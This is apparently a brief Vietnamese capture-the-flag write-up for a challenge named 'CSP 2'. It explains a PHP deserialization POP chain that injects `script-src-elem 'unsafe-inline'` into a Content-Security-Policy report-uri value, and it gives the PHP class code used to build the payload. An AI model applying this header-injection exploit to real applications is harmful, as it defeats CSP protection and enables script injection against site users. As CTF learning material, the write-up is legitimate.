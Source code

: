 ### Solution
Tạo POP chain từ mấy class trên để control biến `report_uri_string` thành `/a;script-src-elem 'unsafe-inline'` => ghi đè các header trước đó và chúng ta có thể sử dụng tag `script` bình thường.

### Payload
Dưới đây là payload của challenge `CSP 2`
```php
<?php
namespace ShouFramework {
    abstract class Typed {
        abstract protected function construct();
        abstract protected function destruct();

        private function type_checker() {}

        public function __construct() {
            $this->construct();
        }

        public function __destruct() {
            $this->destruct();
        }

        public function __wakeup() {
            $this->type_checker();
        }
    }

    class Template extends Typed {
        protected function construct() {}

        protected function destruct() {}
    }

    abstract class HTTP extends Typed {
        public Template $template_object;

        protected function construct() {
            $this->template_object = new Template();
        }

        public function handle() {}

        public function handle_request() {
            $this->handle();
            $this->render();
        }

        abstract public function render();

        protected function destruct() {
            $this->handle_request();
        }
    }

    class CSP extends Typed {
        public $report_uri_string = "/a; script-src-elem 'unsafe-inline'";

        protected function construct() {}

        protected function destruct() {}
    }
}
```